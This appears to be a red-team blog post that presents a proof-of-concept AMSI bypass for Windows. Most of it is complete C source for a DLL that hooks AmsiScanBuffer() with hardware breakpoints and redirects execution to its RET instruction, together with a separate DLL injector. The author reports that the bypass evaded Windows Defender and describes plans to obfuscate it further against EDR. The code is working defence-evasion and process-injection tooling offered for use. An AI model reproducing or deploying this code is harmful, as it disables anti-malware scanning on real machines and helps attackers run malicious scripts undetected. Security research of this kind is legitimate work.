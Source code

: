 ```yaml
---
title: Frida vs. AMSI - Beyond Prototyping
description: We broke AMSI in theory, but now let's turn it into a real exploit!
---
```


# Frida vs. AMSI - Beyond Prototyping

In my [previous article on bypassing AMSI](/blogs/frida-vs-amsi), I discussed various approaches to disabling AMSI on a Windows system - by hooking and intercepting key functions, by patching them in memory, or by corrupting the data structures that AMSI relies on to function. 

All of these techniques are certainly effective, and Frida was a great tool for rapidly implementing and experimenting with them.

However, none of them are particularly stealthy. Patching a process in memory is a fairly noisy activity. While it might not get picked up by *every* EDR as long as you're not using signatured tooling, any product with a robust behavioural analysis function is likely to flag this as suspicious behaviour.

In this article, I'll describe another approach to patching AMSI. I also hope to further demonstrate Frida's usefulness as a rapid prototyping tool, as it was my earlier research using Frida that brought me here in the first place.

## Patchless Patching

The basic idea is recognisable from the previous article in this series: we're still patching the *AmsiScanBuffer()* function to short-circuit its functionality. In this case, we're going to simply redirect execution to the RET instruction at the end of *AmsiScanBuffer()* whenever it gets invoked. The function will return instantly with a default return value of 0.

The way we're going to execute that patch is different, however. We're going to use hardware breakpoints to intercept *AmsiScanBuffer()*, a technique I can't take credit for. I learned about it from an article in [VXUnderground Black Mass Halloween 2022](https://vx-underground.org/Papers/Other/VXUG%20Zines), which I highly recommend if you're comfortable with C. It's a great read.

The basic idea works as follows:

1. Create a DLL which must be injected into or loaded by the process you want to patch AMSI for. 
2. Within *DllMain()*, identify the memory address of the *DllCanUnloadNow()* function in the mapped version of AMSI.DLL. It precedes the function we're actually interested in.
3. Use egg-hunting techniques to scan forward from *DllCanUnloadNow()*, searching for the start of *AmsiScanBuffer()*. This indirect approach helps with evasion, as per the old **@am0nsec** implementation.
4. Manipulate debug registers to set a hardware breakpoint on the address of *AmsiScanBuffer()*. When the function is invoked, a special exception will be thrown.
5. Register an exception handler which manipulates the rip register to redirect execution to the end of the *AmsiScanBuffer()* function, bypassing it.

As with other egg-hunting AMSI patching techniques, this approach is somewhat fragile. The specific signatures we're searching for will change between different versions of Windows, and the bypass will need to be manually adjusted to work on those newer builds.

## Proof of Concept

Note that this is only a proof of concept and hasn't been tested extensively. It doesn't have error handling and isn't opsec-friendly. Still, here's what it looks like:

```c
#include <windows.h>
#include <sys/types.h>
#include <processthreadsapi.h>
#include <stdio.h>
#include <tlhelp32.h>

// AMSI Bypass DLL via Hardware Breakpoints
// Find some way to load or inject this DLL into your process and it will hook AmsiScanBuffer().
// Compilation: x86_64-w64-mingw32-gcc amsi-breakpoint.c -shared -o  amsi-breakpoint.dll

// A simple memory scanner for the purpose of finding ROP gadgets.
uintptr_t find_egg(uintptr_t addr, char *egg, int size, int max)
{
    for (int i = 0; i < max; i++)
    {
        if (memcmp((LPVOID)(addr + i), egg, size) == 0) {
            return (addr + i);
        }
    }
    return 0;
}

// Exception handler that gets invoked when the breakpoints trigger.
// It uses find_egg() to identify the RET instruction at the end of AmsiScanBuffer() and redirect execution to it.
// This effectively patches the function to return 0.
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS ExceptionInfo) {
	// Validate that it's a single-step exception, thrown by the hardware breakpoint.
	if (ExceptionInfo->ExceptionRecord->ExceptionCode == STATUS_SINGLE_STEP) {
		// Search forwards from the current location for a RET instruction and move the instruction pointer to it.
		uintptr_t rip = ExceptionInfo->ContextRecord->Rip;
		uintptr_t newrip = find_egg(rip, "\xc3", 1, 500);
		ExceptionInfo->ContextRecord->Rip = newrip;
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// Set a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL set_hardware_breakpoint(HANDLE thd, uintptr_t address) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// set the breakpoint address
	context.Dr0 = (uintptr_t) address;

	// set bits 0 and 1 of dr7 to '10' (enable dr0 local breakpoint)
	context.Dr7 |= 1ull << 0;
	context.Dr7 &= ~(1ull << 1);

	// set bits 16 and 17 of dr7 to '00' (set dr0 break trigger to "execute")
	context.Dr7 &= ~(1ull << 16);
	context.Dr7 &= ~(1ull << 17);

	// set bits 18 and 19 of dr7 to '00' (set dr0 break size to 1 byte)
	context.Dr7 &= ~(1ull << 18);
	context.Dr7 &= ~(1ull << 19);	

	return SetThreadContext(thd, &context);
}


// Remove a hardware breakpoint on a thread by manipulating the debug registers of its thread context.
BOOL remove_hardware_breakpoint(HANDLE thd) {
	CONTEXT context = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
	GetThreadContext(thd, &context);
	
	// unset the breakpoint address
	context.Dr0 = 0ull;
	
	// unset bit 0 of dr7
	context.Dr7 &= ~(1ull << 0);
	
	return SetThreadContext(thd, &context);
}

// Iterate through the threads associated with a process and hook all of them with hardware breakpoints.
void hook_process(DWORD pid, uintptr_t addr) {
	HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	THREADENTRY32 te = { .dwSize = sizeof(THREADENTRY32) };
	Thread32First(h, &te);

	do {
		if (te.th32OwnerProcessID == pid && (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te.th32OwnerProcessID))) {
			HANDLE thd = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
			BOOL res = set_hardware_breakpoint(thd, addr);
			if (res) {
				printf("Hooked 0x%p on thread %i\n", addr, te.th32ThreadID);
			}
		}
	} while (Thread32Next(h, &te));

	CloseHandle(h);		
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	const PVOID handler = AddVectoredExceptionHandler(1, ExceptionHandler);	
	const DWORD pid = GetCurrentProcessId();
	
	// Find the target address using a signature-based technique for evasion. Signature may need to be updated for different Windows versions.
	char *egg = "\x4C\x8B\xDC\x49\x89\x5B\x08\x49\x89\x6B\x10\x49\x89\x73\x18\x57\x41\x56\x41\x57\x48\x83\xEC\x70";
	uintptr_t base = (uintptr_t)GetProcAddress(GetModuleHandleW(L"AMSI.dll"), "DllCanUnloadNow");
	uintptr_t addr = find_egg(base, egg, 24, 65535);

	switch(fdwReason) {
		case DLL_PROCESS_ATTACH:
			// Hook the target address.	
			hook_process(pid, addr);
			break;
		
		break;
	}
	
	return TRUE;
}
```

For testing purposes, you can use the following "injector" to load the DLL into memory:

```c
#include <windows.h>
#include <sys/types.h>

void dll_inject(char *dll_path, pid_t pid) {
	HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);

	void *ptr = VirtualAllocEx(proc, 0, strlen(dll_path), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(proc, ptr, dll_path, strlen(dll_path), 0);

	void *kernel32 = GetModuleHandle(TEXT("kernel32.dll"));
	void *loadLibAddr = GetProcAddress(kernel32, "LoadLibraryA");
	CreateRemoteThread(proc, NULL, 0, loadLibAddr, ptr, 0, NULL);	
}

void main() {
	dll_inject("C:\\Users\\IEUser\\Downloads\\amsi-breakpoint.dll", 2768);
}
```

Upon running `inject.exe` with the correct path and the PID of your Powershell process, you should find that AMSI has been disabled for it.

![a screenshot that demonstrates the breakpoint AMSI bypass](/img/amsi-breakpoint.png)

## Conclusion

I won't be publishing the code for this AMSI bypass elsewhere, as I haven't tested it extensively enough to be sure it functions reliably. On my Windows 10 testing VM, though, it was enough to bypass AMSI without triggering the (non-enterprise) Windows Defender present on the system.

Breakpoint hooking is a technique I have injected from elsewhere (pun intended), but everything else I did here builds on what I learned in my previous article. I think it's a great illustration of how you can use reverse engineering and instrumentation tools to go from idea to prototype, and then prototype to proof of concept.

I might now go from proof of concept to finished tooling, with a bit more obfuscation included to throw off EDR from the bits that might trigger a signature. Tools like this tend to get burned pretty quickly when you release them in public, though, so I'll probably be keeping any further development on this one to myself. 